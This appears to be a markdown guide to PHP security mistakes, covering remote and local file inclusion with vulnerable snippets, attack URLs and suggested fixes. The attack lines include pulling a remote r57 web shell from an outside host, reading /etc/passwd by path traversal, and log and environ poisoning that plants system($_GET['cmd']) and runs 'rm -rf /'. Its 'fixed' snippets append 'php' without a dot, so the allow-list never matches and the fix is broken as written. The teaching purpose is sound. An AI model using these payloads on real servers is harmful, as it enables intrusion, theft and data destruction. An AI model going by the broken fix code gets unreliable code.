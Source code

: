 #Things you shouldn't do in PHP

1. Remote File Inclusion
2. Local File Inclusion
3. Local File Disclosure/Download
4. Remote Command Execution
5. Remote Code Execution
6. Authentication Bypass/Insecure Permissions
7. Cross-Site Scripting(XSS)
8. Cross Site Request Forgery(CSRF)

##1) Remote File Inclusion
######Basic examples

test.php
```php
<?php
$theme = $_GET['theme'];
include $theme;
?>
```
test1.php
```php
<?php
$theme = $_GET['theme'];
include $theme.'.php';
?>
```
######Attack
- Including Remote Code: 
 	- http://localhost/rfi/index.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt
	- http://localhost/rfi/index1.php?theme=[http|https|ftp]://www.c99shellphp.com/shell/r57.txt?
- Using PHP stream php://input:
	- http://localhost/rfi/index.php?theme=php://input 
- Using PHP stream php://filter:
	- http://localhost/rfi/index.php?theme=php://filter/convert.base64-encode/resource=index.php
- Using data URIs:
	- http://localhost/rfi/index.php?theme=data://text/plain;base64,SSBsb3ZlIFBIUAo=
	
######How to fix
- set `allow_url_include = Off` in php.ini
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the slash "/"
- filter "http" , "https" , "ftp" and "smb"

test_fixed.php
```php
<?php
$allowedThemes = array('pink.php', 'black.php');
$theme = $_GET['theme'].'php';
if(in_array($theme, $allowedThemes) && file_exists($theme)){
    include $theme;
}
?>
```
######Affected PHP Functions
- require
- require_once
- include
- include_once

##1) Local File Inclusion
######Basic examples

test.php
```php
<?php
$theme = 'themes/'.$_GET['theme'];
include $theme;
?>
```
test1.php
```php
<?php
$theme = 'themes/'.$_GET['theme'];
include $theme.'.php';
?>
```
######Attack
- Reading Local Filesystem File:
	- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../etc/passwd
- Uploading PHP Shell:
	- Exploiting Apache Access Log
		- http://localhost/<?php system($_GET['cmd']); ?>
		- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../var/log/apache2/access.log&cmd=rm -rf /
	- proc/self/environ method
		- Tamper http User-Agent into <?php system($_GET['cmd']); ?>
		- http://localhost/lfi/index.php?theme=../../../../../../../../../../../../../../proc/self/environ&cmd=rm -rf /

######How to fix
- Validate with array of allowed files
- Don't allow special chars in variables
- filter the dot "." and slash "/"
- filter "http" , "https" , "ftp" and "smb"

test_fixed.php
```php
<?php
$allowedThemes = array('pink.php', 'black.php');
$theme = $_GET['theme'].'php';
if(in_array($theme, $allowedThemes) && file_exists($theme)){
    include 'themes/'.$theme;
}
?>
```
######Affected PHP Functions
- require
- require_once
- include
- include_once